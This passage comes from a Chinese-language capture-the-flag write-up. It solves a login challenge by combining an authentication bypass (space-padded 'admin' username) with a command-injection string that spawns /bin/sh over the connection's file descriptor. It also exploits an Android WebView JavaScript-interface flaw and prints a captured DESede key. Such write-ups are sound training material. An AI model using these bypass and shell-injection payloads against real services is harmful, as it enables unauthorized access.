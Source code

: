 这个真是醉了,else 后面居然没加大括号!这个跟苹果之前被爆出的 goto fail bug 有异曲同工之处。这就导致了 login = 0;这句赋值始终会被执行, 同时也就意味着 admin 永远无法登陆成功,难道这个 system 就是故意放着逗你玩的吗?再从头仔细看一遍代码,发现提交数据中的 temp.user 和 temp.pass 长度都是 128,而用来做判断的 szUser 和 szPass 只取了前面 63 个字节,并且只是对 temp.user 用 function1 去掉了尾部的空格,并没有处理 szUser 和 szPass,只是 在作为 guest 登录成功之后才会用 function1 处理一下 szUser,而后的权限检查是判断这个处理过后的 szUser 是否等于"admin",所以可以构造这样一个

```
user = 'admin'.ljust(64, ' ') + 'p' 
```

以 guest 的逻辑登录并且绕过 admin 的权限检查,最终的提交数据为

```
user = 'admin'.ljust(64, ' ') + 'p' 
hashval = 'alibaba'
password = ''
for i in xrange(len(hashval)):
    c = chr((ord(hashval[i]) - ord('guest'[i%5])) % 26 + ord('a'))
    password += c
cmd = '; /bin/sh<&9 >&9 2>&9'
data = user.ljust(128, '\x00') + password.ljust(128, '\x00') + cmd.ljust(256, '\x00') 
```

本地测试的时候可以成功开出 shell,不过远程的服务器就只是返回了一个 flag 而已>_<

## Part 6 EvilApk

* * *

### 100pt

反编译,在源码中就能看到文件的名称

### 200pt

反编译,通过搜索 method 的功能搜索 sendSMS,得到次数。

### 300pt

根据题目描述,这里是考察 android 的 webview 漏洞。程序加了特殊的壳,不容易直接分析,但是如果要利用这个漏洞要知道在 addJavascriptInterface 里 触发漏洞时需要调用的对象是什么。 ￼￼￼￼￼￼￼￼￼ ￼这里用到了 LoCCS 实验室的安卓 API 监控工具,链接在 https://github.com/romangol/InDroid。直接把 apk 扔进去跑,并一路记录 apk 调用的 API。结果可以 发现进入 addJavascriptInterface 之后显示的对象名字叫做 SmokeyBear。题目说要弹出一个 Toast 来获取 flag。于是我们构造一个 js 文件,其中

```
function execute() { SmokeyBear.showToast(); } 
```

尝试调用 showToast 方法来获得 Toast 里的内容,即 flag。

### 400pt

这个 apk 程序同样也是加了特殊的壳,不能直接进行反汇编然后分析。于是再次使用 LoCCS 实验室的安卓 API 监控工具跑一下。可以看到在流程中,apk 调 用了一些 Java 相关的加密函数,其中收集到的信息包括(Indroid 可以进行 API 调用以及其具体参数是什么的收集):

```
算法:DESede
key:1f 98 ce ab 20 97 70 ef a8 75 c2 45 85 3e ce 76 1f 98 ce ab 20 97 70 ef 
IV: 00 0a 0a 0a 0a 02 02 aa
分组模式:CBC
Padding 模式:PKC5 
```
